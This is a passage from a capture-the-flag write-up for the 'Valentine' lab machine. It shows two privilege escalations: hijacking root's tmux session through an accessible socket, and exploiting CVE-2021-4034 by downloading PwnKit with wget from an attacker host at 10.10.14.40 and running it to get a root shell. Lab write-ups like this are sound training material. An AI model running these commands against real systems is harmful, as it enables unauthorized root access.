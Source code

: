 All we'd need to do to hijack that session is to call it:

```text
hype@Valentine:/tmp$ ls -la /usr/bin/tmux -S /.devs/dev_sess
-rwxr-xr-x 1 root root 421944 Feb 13  2012 /usr/bin/tmux
srw-rw---- 1 root hype      0 Jul 26 08:28 /.devs/dev_sess
hype@Valentine:/tmp$  /usr/bin/tmux -S /.devs/dev_sess
```
And we a dropped into root's tmux session where we can grab the root.txt flag:

![root_flag.png](../assets/valentine_assets/root_flag.png)

### Privilege Escalation #2

Because this is such an old box there are likely several different ways to escalate privileges, but I'll showcase just a couple more here, just for fun. 

LinPeas also discovered this target is vulnerable to CVE-2021-4034, which can be exploited with PwnKit:

![pwnkit.png](../assets/valentine_assets/pwnkit.png)

```text
hype@Valentine:/tmp$ wget http://10.10.14.40/PwnKit
--2023-07-26 08:55:32--  http://10.10.14.40/PwnKit
Connecting to 10.10.14.40:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: `PwnKit'

100%[===================================================================================>] 18,040      --.-K/s   in 0.07s   

2023-07-26 08:55:32 (256 KB/s) - `PwnKit' saved [18040/18040]

hype@Valentine:/tmp$ chmod +x PwnKit
hype@Valentine:/tmp$ ./PwnKit
root@Valentine:/tmp# whoami
root
root@Valentine:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),124(sambashare),1000(hype)
```
